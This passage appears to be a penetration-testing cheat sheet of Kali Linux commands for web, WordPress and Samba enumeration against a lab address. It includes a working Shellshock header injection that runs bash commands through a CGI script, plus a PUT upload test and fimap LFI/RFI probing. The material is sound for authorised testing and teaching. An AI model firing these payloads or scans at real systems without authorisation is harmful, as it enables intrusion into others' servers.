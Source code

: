 Look at the Page Header and What is being Sent:
``` bash
root@kali:~# curl -v http://192.168.1.100/cgi-bin/admin.cgi -s >/dev/null
```

Test is you can execute a bash script from a header field:
``` bash
root@kali:~# curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; uname -a; echo zzzz;'"  http://192.168.1.100/cgi-bin/admin.cgi
```

Query a webpage and output it to HTML2Text:
``` bash
root@kali:~# curl -vk https://192.168.1.100 | html2text
```

Enumerate HTTP methods with curl:
``` bash
root@kali:~# curl -vX OPTIONS 192.168.1.100/test
```

Quick test with curl of PUT option:
``` bash
root@kali:~# curl -vX PUT -d "$(cat test.txt)" 192.168.1.100/test/test.txt
```

### LFI/RFI Discovery
You can potentially detect if there are possible LFI's or RFI's via the "fimap" python script.
``` bash
root@kali:~# fimap.py -u 'http://192.168.1.100/test.php?file=bang&id=23'
```

## WordPress Enumeration
WordPress is commonly used for website presentation through themes. It's multitude of plugins offer myriad avenues of potential vulnerabilities. Wpscan is a great tool to identify them.

### wpscan
Wpscan identifies the WordPress version and plugins installed and compares them against a list of known vulnerabilities which it lists out. It also provides the name of the current theme.

Check WordPress and its plugins for vulnerabilities:
``` bash
root@kali:~# wpscan --url 192.168.1.100 --enumerate p
```

## Windows and Samba Enumeration
Enumeration of windows and samba systems can provide lists of running services, known users, file shares, open network ports and more. If UDP port 135/137 are available, you are likely able to enumerate some items on the target.

### Enum4Linux
Enum4Linux (e4l) is a perl program that wraps several Samba tools into one. It uses smbclient, rpclient, net and nmblookup to pull as much information from the target as possible.
